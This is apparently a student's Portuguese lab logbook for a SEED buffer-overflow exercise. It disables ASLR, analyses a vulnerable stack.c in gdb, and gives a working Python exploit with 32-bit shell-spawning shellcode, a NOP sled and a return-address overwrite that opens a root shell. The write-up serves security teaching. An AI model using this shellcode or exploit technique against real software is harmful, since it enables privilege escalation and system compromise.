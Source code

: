 # Trabalho realizado na Semana #5

## Questão 1
### Configuração básica

- Como sugerido, executámos os seguintes comandos, de forma a criar um ambiente onde a execução do ataque seja mais fácil.
O primeiro a ser executado tem como objetivo retirar as contramedidas de alocação de espaço aleatório das posições iniciais dos registos da stack e da heap. Já o segundo, serve para dar _bypass_ às contramedidas de Dash ao ligarmos a nossa shell à outra shell `/bin/zsh`.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0

$ sudo ln -sf /bin/zsh /bin/sh
```


### Tarefa 1 : Getting Familiar with Shellcode

![Task1_Steps](resources/LOGBOOK5/task1.png)

### Tarefa 2: Understanding the Vulnerable Program

- Nesta segunda tarefa, entendemos que o programa apresentado em stack.c é de facto, vulnerável a ataques buffer overflow, uma vez que neste programa a função `bof` pretende copiar através do comando `strcpy`,que não verifica os limites do tamanho do buffer, o argumento `str`, sendo este um array com um máximo de 517 caracteres, para a variável `buffer`, tendo o espaço de 100 caracteres, lido apartir de um ficheiro `badfile`. Caso a váriavel `str` tenha caracteres a mais que `buffer`, ocorre o erro de Segmentation Fault.

- Posteriormente, assim como pedido, alteramos o valor `L1` do Makefile, para 116 (100+8*G).
 
![Task2_MakefileChanges](resources/LOGBOOK5/task2Makefile.png)

### Tarefa 3: Launching Attack on 32-bit Program (Level 1)

#### Criação badfile

Para esta tarefa, primeiramente, criamos o ficheiro badfile, cujo conteúdo será lido para o buffer, causando o overflow e o acesso à root shell.

![Tarefa 3 create badfile](resources/LOGBOOK5/task3badfile.png)


#### Compilação e GDB

De seguida, executamos `make stack-L1`, de forma a compilar o ficheiro stack.c usando L1 como tamanho do buffer e executamos o gdb deste ficheiro.

![Tarefa 3 Compilação + gdb](resources/LOGBOOK5/task3Compilation.png)

#### Procura de endereços

Recorrendo ao gdb, começamos por criar um breakpoint na função bof de forma a que o programa pare nesta função, visto que é onde está presente o problema de buffer overflow. De seguida, analisamos as posições em memória de `ebp` e do `buffer` e, por fim, calculamos a diferença entre estes, de forma a perceber o quanto distam.

![Tarefa 3 find addresses](resources/LOGBOOK5/task3findaddress.png)

#### Modificação do ficheiro de ataque

```python
#!/usr/bin/python3
import sys

# Shellcode 32-bit
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"   
).encode('latin-1')

# Encher o conteúdo com NOP's
# Salto não necessita de ser preciso, pode ser feito para posições anteriores à da localização exata do código malicioso
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Por o Shellcode algures na Stack
# Como o restantes locais reescritos pelo buffer estarão com o valor da instrução NOP, torna-se mais fácil por o Shellcode no final do payload e apontar o return adress para algures nesse espaço
start = 517 - len(shellcode)                
content[start:start + len(shellcode)] = shellcode


# 0xFFFFCB58 -> posição do $ebp quando debugging
# 200 -> salto para suportar aumento do valor dos registos quando executado normalmente
ret    = 0xFFFFCB58 + 200         

# 124 -> Distância entre buffer e ebp
# 4 -> Tamanho do ebp (return address encontra-se depois)
offset = 124 + 4 

L = 4     # Utilizar 4 para registos de 32-bits e 8 para registos de 64-bit
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Escrever o conteúdo no ficheiro
with open('badfile', 'wb') as f:
  f.write(content)
```

Para a criação do ataque tivemos de pensar em alguns valores, nomeadamente:

- `shellcode`: Para este, usamos o valor previamente mostrado na ficha para um sistema de 32 bits, visto que `L`, determina o tipo de sistema e como tem valor 4, sabemos que estamos perante um sistema de 32 bits.

- `start`: Foi escolhido o valor `517 - len(shellcode)`, de forma a que o código a ser executado, neste caso o shellcode, ficasse inserido no final da payload. Optámos por fazer desta forma uma vez que, como o restante espaço do buffer será preenchido com operadores `NOP`, exceto o return address, independentemente do local para qual este aponta no buffer (considerando que este aponta para uma localização entre o return address e o final da payload) o shellcode seria executado. 

- `ret`: Este valor foi definido, tendo em conta o valor do `ebp` descoberto durante o debugging, ao qual somamos 200, de forma a apontar algures entre o return adress e o final do payload. O valor não é trivial uma vez que a posição na memória verdadeira do `ebp` é superior à de quando o programa é executado com `gdb`, podiam no entanto ser utilizados outros valores.


- `offset`: Neste caso, o valor escolhido é a diferença entre os espaços de memória do ínicio do buffer e o return address. Como a localização do return address é logo após o `ebp`, bastou adicionar o tamanho deste (4 bytes) ao seu offset do ínicio do buffer (obtido durante o debugging).


Para chegar a este valores recorremos ao livro recomendado, capitulo 4, [Buffer-OverFlow Attack](https://www.handsonsecurity.net/files/chapters/edition3/sample-buffer-overflow.pdf) referido na secção `Seed Books`. 

#### Esquemas

Decidimos criar pequenos esquemas, não muito exatos, representativos da porção da stack afetada, em vários momentos do processo.

---

Programa executado dentro do GDB. Foi neste estado que obtivemos os valores de memória para o `buffer` e o `ebp`

<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    <img src="resources/LOGBOOK5/stackGDB.png" alt="Stack GDB" />
</div>
<br>

---

Programa executado na shell, antes do buffer overflow. 

Como é possível reparar, as posições de memória obtidas anteriormente já não representam a posição real das estruturas. 

<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    <img src="resources/LOGBOOK5/stackNormal.png" alt="Stack normal" />
</div>
<br>

---

Programa executado normalmente, após bufferOverflow.

Após este passo, é possível perceber que regiões de memória se encontram com a instrução `NOP` e para que sítio na memória o return address aponta
<div style="width:350px; display:block; margin-left:auto; margin-right:auto ">
    <img src="resources/LOGBOOK5/stackafetada.png" alt="Stack afetada" />
</div>

<br>
<br>


#### Execução do Ataque

Após a criação do ficheiro exploit executámo-lo de forma criar os conteúdos dentro do ficheiro badfile. Por fim, corremos o programa vulnerável, `stack-L1`, e conseguimos que uma root shell fosse aberta, comprometendo o sistema.

![Tarefa 3 Acesso root shell](resources/LOGBOOK5/result.png)


## Questão 2


**Buffer inicial**, antes da execução do `strcpy`.
<div style="height:650px; width: 400px; display:block; margin-left:auto; margin-right:auto">
    <img src="resources/LOGBOOK5/bufBefore.png" alt="Buffer normal" />
</div>
<br>



**Buffer após overflow**

<div style="height:650px; width: 400px; display:block; margin-left:auto; margin-right:auto">
    <img src="resources/LOGBOOK5/bufAfter.png" alt="Buffer Alterado" />
</div>

<br>

Podemos verificar que este se encontra preenchido com `NOP` (0x90) e que contém o `return address` assim como o `shellcode` no fim.

![Questao 2 Return Adress no Buffer](resources/LOGBOOK5/returnAdressBuf.png)

![Questao 2 Shellcode no Buffer](resources/LOGBOOK5/shellcode.png)


---

Com o seguinte comando é possível confirmar que o `return address` está de facto a ser escrito na posição de memória correta, exatamente após o `$ebp`

![Questao 2 Return Adress](resources/LOGBOOK5/returnAdress.png)

Podemos verificar que o endereço para onde o `return address` aponta se encontra entre a posição do mesmo e o `shellcode`. O mesmo deve acontecer quando executado na shell, onde os endereços da stack têm tipicamente um valor mais alto.

